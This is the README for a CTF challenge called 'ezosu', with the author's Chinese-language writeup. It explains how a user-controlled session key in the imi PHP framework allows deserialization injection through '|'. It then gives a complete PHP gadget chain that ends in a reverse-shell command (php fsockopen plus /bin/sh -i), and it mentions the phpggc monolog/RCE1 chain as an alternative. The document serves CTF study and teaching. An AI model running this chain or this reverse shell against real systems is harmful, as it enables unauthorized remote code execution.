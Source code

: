 # ezosu

# How to Start and Stop
## start
```shell
docker-compose up -d
```

## stop
```shell
docker-compose down --rmi all
```

# writeup

## unsafe session
本题利用了一个名为`imi`的框架。

本题有且只有一个路由由php处理`/config`，其实现如下：

![image-20211229211433630](https://gitee.com/AFKL/image/raw/master/img/image-20211229211433630.png)

这个路由的代码中最惹人注意的地方是，session的键值是可以被用户控制的。

imi框架是用swoole起点的，但swoole本身不支持php的原生session，所以为了兼容原生的session，imi框架自己写了一个session模块，并兼容了原生session。

在原生session文件处理的实现中，开发者使用`|`对属性进行分割，但键名没有过滤，可以插入`|`。如果用户可控键名，那么就会导致反序列化逃逸。

![image-20211229210444085](https://gitee.com/AFKL/image/raw/master/img/image-20211229210444085.png)

## find gadget

那么接下来就是找反序列化链了。本次比赛的选手找到了各种各样的链，这里先说一下预期链：

由于本人在测试时并没有找到`destruct`触发的链。所以基于反序列化函数后的代码尝试触发`toString`。但我们可以看到反序列化得到的对象，经过两行代码后就进入了`serialize`函数中。这意味着我们可以通过触发`__sleep`来触发一条序列化链。

这里是我找到的gadget。
```php
<?php
namespace Symfony\Component\String {
    class LazyString {
        private $value;

        public function __construct($a)
        {
            $this->value = $a;
        }
    }
}

namespace Imi\Aop {
    class JoinPoint {
        protected array $args;
    }

    class AroundJoinPoint extends JoinPoint {
        private $nextProceed;

        public function __construct($a, $b)
        {
            $this->args = $a;
            $this->nextProceed = $b;
        }
    }
}

namespace GrahamCampbell\ResultType {
    class Success {
        private $value;

        public function __construct($a)
        {
            $this->value = $a;
        }
    }
}

namespace {
    $ip = "127%2E0%2E%2E1";
    $re = "php -r '\$sock=fsockopen(urldecode(\"$ip\"),8888);exec(\"/bin/sh -i <&3 >&3 2>&3\");'";

    $exp = new \Symfony\Component\String\LazyString(
        [
            new \Imi\Aop\AroundJoinPoint(
                [new \GrahamCampbell\ResultType\Success($re), "flatMap"], 
                [new \GrahamCampbell\ResultType\Success("system"), "flatMap"]
            ),
            "proceed"
        ]
    );
    echo json_encode(["aaa|".serialize($exp)."aa" => "aaaa"]);
}
```

入口是十分经典的`LazyString`，其`__sleep`会去调用`__toString`方法。一些选手使用此方法以为是什么神秘的地方调用了`__toString`，实际上是调用了`__sleep`方法。

![image-20211229232716199](https://gitee.com/AFKL/image/raw/master/img/image-20211229232716199.png)

这里我们可以调用任意类的公共方法，这里我选择了`Imi\Aop\AroundJoinPoint::proceed`:

![image-20211229232832689](https://gitee.com/AFKL/image/raw/master/img/image-20211229232832689.png)
其参数默认为null，`$args`可以通过父类属性获取，但必须是`array`类型。这个地方的动态调用虽然函数可控，但参数只有一个，且参数类型必须是`array`，是无法getshell的。那么就继续找存在动态调用的公共方法。

最终找到了`GrahamCampbell\ResultType\Success::flatMap`，其参数必须是`callable`类型。

![image-20211229233610931](https://gitee.com/AFKL/image/raw/master/img/image-20211229233610931.png)

动态调用公共方法的数组是被算作`callable`类型的，所以只要利用两次这个方法即可。

![调用流程图](https://gitee.com/AFKL/image/raw/master/img/未命名文件.png)

## other gadget

当然我说过，gadget不止这一条。有人使用`phpggc`的`monolog/RCE1`就直接打穿了（草）。
很想吐槽monolog，你都2.3.5版本了，怎么还不修链，学学人家yii啊，搞的我这道题都是非预期（bushi

还有一些队伍使用`monolog`的`destruct`加其它的类来触发反序列化链，就不说了。

如果抛开`monolog`的话，本题找`destruct`或`wakeup`起点的链其实很难。因为此框架的类属性都是限定类型的，那么找gadget就会变成java那样比较麻烦。目前来看目前没有一个队伍的起点是`imi`框架里的。

## other point

因为开发者设置的特殊规则，session键值中的`.`符号会被解释为子属性。因此链中的`.`符号必须进行特殊处理。比如我这里使用php反弹shell时将会被转义的符号url编码，在执行反弹shell代码的时候再解开。